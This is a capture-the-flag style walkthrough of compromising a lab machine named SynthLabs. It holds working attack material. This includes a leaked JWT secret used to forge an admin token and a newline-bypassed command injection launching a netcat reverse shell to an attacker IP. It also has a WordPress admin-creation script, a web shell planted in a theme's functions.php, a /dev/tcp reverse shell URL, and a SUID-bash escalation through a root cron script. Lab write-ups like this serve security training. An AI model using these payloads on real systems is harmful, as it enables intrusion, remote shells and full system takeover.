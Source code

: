 # SynthLabs
![](../images/synthlabs/index.png)

## Recon
At the beginning, I used `nmap` with the following parameters to scan the target. 
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/synthlab]
└──╼ $sudo nmap -sSVC -Pn -T5 --min-rate 2000 -p- 172.16.0.210
Nmap scan report for 172.16.0.210
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 19:91:a6:2e:17:d4:98:d7:68:68:e8:d3:88:e5:e9:62 (ECDSA)
|_  256 77:7f:8a:01:61:1e:b1:c3:30:aa:d1:1d:77:23:b8:37 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://synthlabs.hc/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan revealed only ports 22 (SSH) and 80 (HTTP) as open. This suggests that the target is likely running a web service and allowing remote SSH connections. Also we need add `synthlabs.hc` in `/etc/hosts`.

First, I performed fuzzing on the web application using `ffuf` to discover hidden directories and files: `ffuf`.
```
/.git
/api/user - GET
/api/auth/login - POST
/api/auth/register - POST
/api/admin - GET
/api/admin/git - POST
```

We can observe that a Git repository is exposed, so we can use `git-dumper` to extract its contents. Inside the repository, we find a `.env` file that contains:
```
SECRET=zqe%]BJmwPZGGGN&S%yGT%3{z/3)Nq_a@$@
PORT=3000
DOJO_URL=http://localhost:8080
TOKEN_DOJO=28f538e6b2f27e342e494e5fd7e837246aa7f19b
```

## Exploitation
We can observe that there is an API and a DefectDojo instance, but they are not directly accessible to us. So, the first step is to understand the web application.

Initially, we create a user at `/api/auth/register`.
![](../images/synthlabs/user_created.png)

Then, we log in at `/api/auth/login`. The login returns a JWT token.
![](../images/synthlabs/user_login.png)

JWT structure:
```
Header
{
  "alg": "HS256",
  "typ": "JWT"
}

Payload
{
  "userId": "7a88f17e-a6e9-4651-b9aa-26311affbcfd",
  "role": "user",
  "iat": 1747499875,
  "exp": 1747503475
}
```

With the secret obtained from the `.env` file, we can try to modify the "role" claim to "admin". In this case, we successfully change it, and by testing the `/api/admin` endpoint, we are authorized as an admin.
![](../images/synthlabs/change_role_jwt.png)

At the `/api/admin/git` endpoint, we can send a POST request with the `repository` parameter set to "test". Notice that it returns a "Git command execution failed" message along with the following output:  
`Command failed: git -C test status\nfatal: cannot change to 'test': No such file or directory\n`.  
It seems there is a command injection vulnerability in this parameter.
![](../images/synthlabs/code_injection_poc1.png)

By testing some bypass techniques such as `$(whoami)`, `;ls;`, `|| ls ||`, among others, we can observe that the application returns:
```
{"message":"Dangerous characters blocked!"}
```

After some time, we discovered that by using `\n`, we can bypass the restriction. This allows us to get a reverse shell with the following payload:
```
POST /api/admin/git HTTP/1.1
Host: synthlabs.hc
Content-Type: application/json
Content-Length: 64
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI3YTg4ZjE3ZS1hNmU5LTQ2NTEtYjlhYS0yNjMxMWFmZmJjZmQiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NDc0OTk4NzUsImV4cCI6MTc0NzUwMzQ3NX0.gKwKZJGfHDBhy3w0AHq6tkfgrYAfswYlkxgp_eZsQqk

{"repository":"t\nbusybox nc 10.0.10.235 4444 -e sh\nsleep(13)"}
```
## Post Exploitation
By inspecting the processes with `pspy`, we see that the root user (UID 0) is running the `backup.sh` script. If we modify this file, we can perform privilege escalation.
```bash
2025/02/23 00:41:01 CMD: UID=0     PID=175634 | /usr/sbin/CRON -f -P 
2025/02/23 00:41:01 CMD: UID=0     PID=175635 | /usr/sbin/CRON -f -P 
2025/02/23 00:41:01 CMD: UID=0     PID=175636 | /bin/bash /var/www/synthlabs-blog/backup.sh 
2025/02/23 00:41:01 CMD: UID=0     PID=175637 | /bin/bash /var/www/synthlabs-blog/backup.sh 
2025/02/23 00:41:01 CMD: UID=0     PID=175638 | /bin/bash /var/www/synthlabs-blog/backup.sh 
2025/02/23 00:41:01 CMD: UID=0     PID=175639 | /bin/bash /var/www/synthlabs-blog/backup.sh
```

We do not have permission to modify this file; only the `www-data` user does.
```bash
thiago@ip-172-16-0-210:/home/thiago/synthlabs/src$ ls -la /var/www/synthlabs-blog/backup.sh
-rwxr-xr-x 1 www-data root 308 Feb 22 05:44 /var/www/synthlabs-blog/backup.sh
```

Checking the internal ports with `ss -tlnp`, we see:
```bash
State                 Recv-Q                Send-Q                               Local Address:Port                                Peer Address:Port               Process                                         
LISTEN                0                     4096                                 127.0.0.53%lo:53                                       0.0.0.0:*                                                                  
LISTEN                0                     511                                        0.0.0.0:80                                       0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:46293                                    0.0.0.0:*                                                                  
LISTEN                0                     151                                      127.0.0.1:3306                                     0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:8000                                     0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:8080                                     0.0.0.0:*                                                                  
LISTEN                0                     70                                       127.0.0.1:33060                                    0.0.0.0:*                                                                  
LISTEN                0                     4096                                     127.0.0.1:8443                                     0.0.0.0:*                                                                  
LISTEN                0                     4096                                    127.0.0.54:53                                       0.0.0.0:*                                                                  
LISTEN                0                     511                                      127.0.0.1:3000                                     0.0.0.0:*                   users:(("node",pid=1143,fd=26))                
LISTEN                0                     4096                                             *:22                                             *:*                                                                  
```

When testing port 8000, we find a WordPress application (corresponding to synthlabs-blogs).

We will use the tool `chisel` for tunneling.  
Attacker machine:
```bash
./chisel server -p 12312 --reverse
```

Target machine:
```bash
/tmp/tools/chisel client 10.0.10.235:12312 R:8000:127.0.0.1:8000
```

Still on the machine as the user `thiago` with the "admin" role, we will create a WordPress user by using the `wp-load.php` file. An alternative way to create an account is to generate a hash and directly replace the admin password in the database using the credentials from `wp-config.php`.
```php
<?php
define('WP_USE_THEMES', false);
require_once('/var/www/synthlabs-blog/wp-load.php');

$user = 'teste';
$pass = 'Teste@123';
$email = 'teste@gmail.com';

if (!username_exists($user) && !email_exists($email)) {
    $user_id = wp_create_user($user, $pass, $email);
    $user = new WP_User($user_id);
    $user->set_role('administrator');
    echo "User criado";
} else {
    echo "Erro.";
}
?>
```

Now, just run `php /tmp/adduser.php`.

To execute a reverse shell in WordPress, we can modify the `functions.php` file in the theme (I will modify the twentytwentyfive theme) to achieve RCE. We need to keep only the payload in the `functions.php` file (this may cause communication errors).

Now, in the "Theme File Editor" (`http://localhost:8000/wp-admin/theme-editor.php`), select the "Twenty Twenty Five" theme from the top right corner.

In the "Theme Files" section on the right, click on `functions.php`. Delete everything and insert a PHP payload (be careful not to make it too large, as it might cause communication issues when using chisel):
```bash
<?php system($_GET['cmd']); ?>
```

Then, click on "Update File".

Now, simply access the file and include a payload to get a reverse shell:
```
http://localhost:8000/wp-content/themes/twentytwentyfive/functions.php?cmd=

http://localhost:8000/wp-content/themes/twentytwentyfive/functions.php?cmd=%2Fbin%2Fbash%20-c%20%27sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.10.235%2F4455%200%3E%261%27
```

Now, just modify `backup.sh` and add the privilege escalation payload: `chmod u+s /bin/bash`.
```
www-data@ip-172-16-2-127:/var/www/synthlabs-blog$ /bin/bash -p
bash-5.2# whoami
root

bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
